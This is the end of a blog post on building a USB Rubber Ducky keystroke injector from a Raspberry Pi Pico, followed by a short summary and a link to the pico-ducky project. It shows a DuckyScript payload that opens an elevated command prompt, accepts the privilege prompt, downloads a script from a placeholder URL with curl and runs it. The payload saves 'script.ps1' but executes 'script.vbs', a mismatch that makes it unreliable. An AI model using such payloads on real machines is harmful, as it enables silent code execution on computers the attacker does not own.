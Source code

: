 `CONTROL SHIFT ENTER`

`DELAY 1000`&#x20;

`LEFT`&#x20;

`DELAY 500`

`ENTER`&#x20;

`DELAY 1000`

`STRING cd .\Downloads\`

`ENTER`&#x20;

`DELAY 500`

`STRING curl URL/to/your/powershell/script -O script.ps1`&#x20;

`ENTER`

`DELAY 500`

`STRING .\script.vbs`

`ENTER`

`DELAY 500`

`STRING exit`

`ENTER`

#### Summary:

In this blog post, we explore the Raspberry Pi Pico's versatility as a microcontroller board, discussing its programmable features. We investigate the motivations behind hackers and security enthusiasts choosing the Raspberry Pi Pico for ethical hacking and security testing. Furthermore, we provide a step-by-step guide on how to create a USB Rubber Ducky using the Raspberry Pi Pico, making it an accessible tool for various security and automation applications.

References:

{% embed url="https://github.com/dbisu/pico-ducky" %}
